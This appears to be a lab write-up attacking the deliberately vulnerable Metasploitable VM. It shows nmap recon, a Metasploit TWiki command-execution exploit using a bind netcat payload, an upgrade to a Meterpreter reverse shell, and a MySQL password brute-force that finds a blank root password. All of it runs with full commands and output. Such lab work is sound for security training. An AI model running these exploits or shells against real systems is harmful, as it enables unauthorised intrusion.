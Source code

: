 # Writeup

> The Metasploitable virtual machine is an intentionally vulnerable version of Ubuntu Linux designed for testing security tools and demonstrating common vulnerabilities.

In this writeup, we will try to find most of the security issues affecting the VM.

## I. Recon

A quick nmap scan gives us :

```
nmap 192.168.195.128  

Starting Nmap 7.60 ( https://nmap.org ) at 2018-06-02 17:13 CEST
Nmap scan report for 192.168.195.128
Host is up (0.0019s latency).
Not shown: 977 filtered ports
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
23/tcp   open  telnet
25/tcp   open  smtp
53/tcp   open  domain
80/tcp   open  http
111/tcp  open  rpcbind
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
512/tcp  open  exec
513/tcp  open  login
514/tcp  open  shell
1099/tcp open  rmiregistry
1524/tcp open  ingreslock
2049/tcp open  nfs
2121/tcp open  ccproxy-ftp
3306/tcp open  mysql
5432/tcp open  postgresql
5900/tcp open  vnc
6000/tcp open  X11
6667/tcp open  irc
8009/tcp open  ajp13
8180/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 4.47 seconds
```

We can see that many services are running on this machine, let's start with the web server running on port 80.

# Port 80

We quickly learn that the web server is Apache 2.2.8. It use PHP 5.2.4 and there is, at the root of the server, a page that contains 5 links to 5 differents apps :

* TWiki
* phpMyAdmin
* Muttilidae
* DVWA
* WebDAV

## TWiki

TWiki is a perl-based web application used to run a collaborative platform. The last stable release is 6.0.2 (released in 2015) but the server run a version that dates back to 2003. 

A little google search reveals quite a few RCE like CVE-2004-1037 and CVE-2008-5305.

Let's have a closer look at these vulnerability by searching if there is any existent metasploit module in relation to TWiki.

```
$ msfconsole 

msf > search twiki

Matching Modules
================

   Name                                    Disclosure Date  Rank       Description
   ----                                    ---------------  ----       -----------
   exploit/unix/http/twiki_debug_plugins   2014-10-09       excellent  TWiki Debugenableplugins Remote Code Execution
   exploit/unix/webapp/moinmoin_twikidraw  2012-12-30       manual     MoinMoin twikidraw Action Traversal File Upload
   exploit/unix/webapp/twiki_history       2005-09-14       excellent  TWiki History TWikiUsers rev Parameter Command Execution
   exploit/unix/webapp/twiki_maketext      2012-12-15       excellent  TWiki MAKETEXT Remote Command Execution
   exploit/unix/webapp/twiki_search        2004-10-01       excellent  TWiki Search Function Arbitrary Command Execution
```

The module `exploit/unix/webapp/twiki_history` seems interesting.

```
msf> use exploit/unix/webapp/twiki_history
msf exploit(unix/webapp/twiki_history) > set RHOST 192.168.195.128
msf exploit(unix/webapp/twiki_history) > set payload cmd/unix/bind_netcat
msf exploit(unix/webapp/twiki_history) > exploit -j
[*] Started bind handler
[*] Command shell session 1 opened (192.168.195.1:56970 -> 192.168.195.128:56789) at 2018-06-03 13:29:23 +0200
```

We get an unix shell, whith `post/multi/manage/shell_to_meterpreter`, we can upgrade this shell to a Meterpreter one.

```
msf exploit(unix/webapp/twiki_history) > use post/multi/manage/shell_to_meterpreter 
msf post(multi/manage/shell_to_meterpreter) > set SESSION 1
msf post(multi/manage/shell_to_meterpreter) > set LHOST 192.168.195.1
msf post(multi/manage/shell_to_meterpreter) > run

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 192.168.195.1:4433 
[*] Sending stage (853256 bytes) to 192.168.195.128
[*] Meterpreter session 3 opened (192.168.195.1:4433 -> 192.168.195.128:46146) at 2018-06-03 13:32:10 +0200
[*] Command stager progress: 100.00% (773/773 bytes)
[*] Post module execution completed
meterpreter > getuid
Server username: uid=33, gid=33, euid=33, egid=33
```

So we get a nice shell, let's move on now to another web app.

## Phpmyadmin

We can assume that phpmyadmin is backed by MySQL that is listening on port 3306.

Let's try to use `auxiliary/scanner/mysql/mysql_login` with a small pass file (500 most commons) to brute-force the MySQL credentials.

```
msf > use auxiliary/scanner/mysql/mysql_login
msf auxiliary(scanner/mysql/mysql_login) > set USERNAME root
msf auxiliary(scanner/mysql/mysql_login) > set PASS_FILE ~/Desktop/Tools/500.txt
msf auxiliary(scanner/mysql/mysql_login) > set RHOSTS 192.168.195.128
msf auxiliary(scanner/mysql/mysql_login) > set BLANK_PASSWORDS true
msf auxiliary(scanner/mysql/mysql_login) > run

[+] 192.168.195.128:3306  - 192.168.195.128:3306 - Found remote MySQL version 5.0.51a
[!] 192.168.195.128:3306  - No active DB -- Credential data will not be saved!
[+] 192.168.195.128:3306  - 192.168.195.128:3306 - Success: 'root:'
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

So the MySQL root password is blank... But we can't connect as root with phpmyadmin. However, we are able to connect to the db with `mysql -u root -h 192.168.195.128 -P 3306 -p --skip-ssl`.


